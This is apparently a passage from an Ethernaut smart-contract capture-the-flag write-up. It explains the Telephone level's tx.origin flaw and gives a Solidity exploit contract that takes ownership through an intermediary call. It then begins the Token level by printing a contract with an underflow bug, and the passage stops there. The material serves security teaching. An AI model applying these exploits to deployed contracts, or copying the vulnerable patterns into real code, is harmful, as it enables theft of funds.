 We have a check in the `changeOnwer` function, we need to pass that check inorder to set the owner. When we call the `changeOwner` function from an other contract we could sucessfully pass the check and write the owner. Because `tx.origin` contains the EOA from where the transaction was initiated and `msg.sender` will be our exploit contract.

> #### Solution:
> ```sol
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.8.0;
> 
> interface telephone {
>     function changeOwner(address _owner) external;
> }
> 
> contract telephoneExploit {
>     telephone tP;
> 
>     constructor(address _instance){
>         tP = telephone(_instance);
>     }
> 
>     function messageCall(address _player) public {
>         tP.changeOwner(_player);
>     }
> }
> ```

<hr>

## 5 Token
In this challenge, we're given 20 tokens, inorder to complete this level we have to steal tokens from the contract.
#### Source: 
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```
